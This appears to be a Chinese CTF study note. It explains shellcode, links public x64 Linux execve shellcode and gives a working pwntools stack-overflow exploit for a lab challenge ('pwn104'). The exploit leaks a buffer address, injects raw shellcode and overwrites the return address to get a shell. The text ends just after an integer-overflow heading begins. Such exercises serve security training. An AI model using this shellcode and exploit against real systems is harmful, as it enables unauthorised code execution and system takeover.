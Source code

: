
什么是shellcode

Shellcode是一段用于利用软件漏洞而执行的代码，通常使用机器语言编写。它被称为"shell code"是因为它通常启动一个命令终端，攻击者可以通过这个终端控制受害的计算机。然而，所有执行类似任务的代码片段都可以称作shellcode。

在设备漏洞利用过程中，shellcode被注入到目标程序中从而被执行。它的目的是执行一些程序本身不具备的功能，实现攻击者的攻击目的。因此，shellcode更像是exploit的载荷，往往对于不同漏洞来讲，exploit是特殊的，而shellcode会具有一些通用性。

注意：第三个shellcode不知道为什么无法正常运行（不能获得shell）

shellcode x64 linux

https://www.exploit-db.com/exploits/46907

https://shell-storm.org/shellcode/files/shellcode-806.html

https://packetstormsecurity.com/files/162210/Linux-x64-execve-bin-sh-Shellcode.html





构造payload

```python
from pwn import *

sh = process('./pwn104')
#sh = host = remote('10.10.136.3',9004)
context.log_level = "debug"


#从程序的输出中提取 buf数组首地址
output = sh.recvn(0x197)

output = sh.recvline()
output = int(str(output,"utf8")[0:-1],16)


shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"


payload = shellcode + b"A" * (0x58 - len(shellcode)) + p64(output)

sh.sendline(payload)

sh.interactive()

```



# 整数溢出漏洞



首先checkfile查看程序的基本信息，发现其开启了栈溢出保护，随机地址，栈不可执行保护
